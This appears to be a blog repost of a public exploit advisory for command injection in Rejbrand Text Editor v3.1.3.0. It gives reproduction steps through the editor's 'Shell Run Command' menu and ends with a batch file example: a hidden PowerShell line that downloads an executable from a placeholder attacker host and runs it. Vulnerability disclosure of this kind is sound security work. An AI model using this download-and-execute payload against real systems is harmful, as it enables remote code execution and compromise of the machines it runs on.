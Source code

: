 ```yaml
---
layout: post
title: Rejbrand Text Editor v3.1.3.0 - OS Command Injection
date: 2023-09-13
category: exploit
---
```


# Exploit Title: Rejbrand Text Editor v3.1.3.0 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 13.09.2023
# Vendor Homepage: https://english.rejbrand.se
# Software Link: https://english.rejbrand.se/rejbrand/applications/rteditor/rte3130.zip
# Tested Version: v3.1.3.0 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open the Rejbrand Text Editor application.
2. Create a `.bat` file containing your reverse shell command.
3. From the **File** menu, click on **Open** and select your `.bat` file.
4. In the **File** menu, click on **Shell Run Command** to execute the `.bat` file.
5. Your reverse shell should now be active, establishing a connection to your listener.

### Example of Reverse Shell Command

An example of a simple reverse shell command for a `.bat` file could look like this:

```batch
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
